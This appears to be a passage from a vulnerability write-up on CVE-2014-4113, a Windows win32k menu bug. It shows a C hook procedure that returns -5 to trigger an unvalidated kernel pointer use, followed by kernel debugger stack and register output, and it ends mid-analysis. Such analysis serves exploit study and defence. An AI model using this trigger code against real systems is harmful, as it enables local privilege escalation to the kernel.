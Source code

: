 <br>


```c
RESULT CALLBACK SubClassNewWndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
LRESULT lResult = {0};

switch (message)
{
   case MN_FINDMENUWINDOWFROMPOINT:
      // end the calling thread's active menu
      // so that user does not see the menu
      DebugBreak ();
      EndMenu();

      DEBUG_MESSAGE("[+] Triggering Vulnerability\n");

      // vulnerability lies here
      // this value is used as memory address without validating
      lResult = -5;  <--- Return to xxxMNWindowFromPoint(..)
      break;
   default:

```

<br>

---
# **Finally return back to kernel with lResult=-5(fffffffb)**
---
<br>


```
1: kd> kvn
 # ChildEBP RetAddr  Args to Child
00 93603a50 92639603 fffffffb fde46848 9271f580 win32k!IsMFMWFPWindow (FPO: [Non-Fpo])
01 93603a90 92638e16 0076f9b4 93603afc 00000000 win32k!xxxMNFindWindowFromPoint+0x65 (FPO: [Non-Fpo])
02 93603aec 92638c1f 93603b0c 9271f580 00000000 win32k!xxxHandleMenuMessages+0x9e (FPO: [Non-Fpo])
03 93603b38 9263f8f1 fde46848 9271f580 00000000 win32k!xxxMNLoop+0x2c6 (FPO: [Non-Fpo])
04 93603ba0 9263f9dc 0000001c 00000000 ffffd8f0 win32k!xxxTrackPopupMenuEx+0x5cd (FPO: [Non-Fpo])
05 93603c14 82a8e1ea 01c10273 00000000 ffffd8f0 win32k!NtUserTrackPopupMenuEx+0xc3 (FPO: [Non-Fpo])
06 93603c14 77d570b4 01c10273 00000000 ffffd8f0 nt!KiFastCallEntry+0x12a (FPO: [0,3] TrapFrame @ 93603c34)
07 0076f9c8 7786483e 77852243 01c10273 00000000 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
08 0076f9cc 77852243 01c10273 00000000 ffffd8f0 USER32!NtUserTrackPopupMenuEx+0xc (FPO: [6,0,0])
09 0076f9ec 0102eedd 01c10273 00000000 ffffd8f0 USER32!TrackPopupMenu+0x1b (FPO: [Non-Fpo])
0a 0076fb24 76883c45 00000000 0076fb70 77d737f5 CVE_2014_4113!ExploitThread+0x20d (FPO: [Non-Fpo]) (CONV: stdcall)
0b 0076fb30 77d737f5 00000000 77b65d12 00000000 kernel32!BaseThreadInitThunk+0xe (FPO: [Non-Fpo])
0c 0076fb70 77d737c8 010299eb 00000000 00000000 ntdll!__RtlUserThreadStart+0x70 (FPO: [Non-Fpo])
0d 0076fb88 00000000 010299eb 00000000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])

1: kd> r
eax=fea1a9f0 ebx=93603afc ecx=93603a78 edx=93603b78 esi=fffffffb edi=fde46848
eip=92645a14 esp=93603a54 ebp=93603a90 iopl=0         nv up ei pl nz ac pe cy
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000217
win32k!IsMFMWFPWindow:
0008:92645a14 mov     edi,edi

1: kd> u 92639603-10
win32k!xxxMNFindWindowFromPoint+0x55:
```